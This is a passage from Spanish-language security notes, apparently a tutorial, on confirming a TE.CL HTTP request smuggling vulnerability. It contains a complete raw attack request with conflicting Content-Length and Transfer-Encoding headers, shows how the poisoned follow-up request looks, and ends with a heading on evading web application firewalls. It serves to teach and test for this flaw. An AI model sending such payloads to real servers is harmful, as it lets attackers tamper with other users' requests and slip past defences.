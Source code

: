 **_Dado que esta solicitud ahora contiene una URL no válida, el servidor responderá con el código de estado 404, lo que indica que la solicitud de ataque realmente interfirió con ella._**

#### TE.CL

Para confirmar una vulnerabilidad TE.CL, enviaría una solicitud de ataque como esta:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c(\r\n)
GET /404 HTTP/1.1(\r\n)
Host: vulnerable-website.com(\r\n)
Content-Type: application/x-www-form-urlencoded(\r\n)
Content-Length: 144(\r\n)

x=(\r\n)
0(\r\n)
(\r\n)
```

>[!success]
>Debe incluir la secuencia final `\r\n\r\n`que sigue al final `0`.

Si el ataque tiene éxito, el servidor de back-end trata todo lo que sigue a `GET /404` como perteneciente a la siguiente solicitud que se recibe. Esto hará que la siguiente solicitud "normal" se vea así:

```http
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

**_Dado que esta solicitud ahora contiene una URL no válida, el servidor responderá con el código de estado 404, lo que indica que la solicitud de ataque realmente interfirió con ella._**

## Tecnicas para evadir WAF + HTTP Request Smuggling
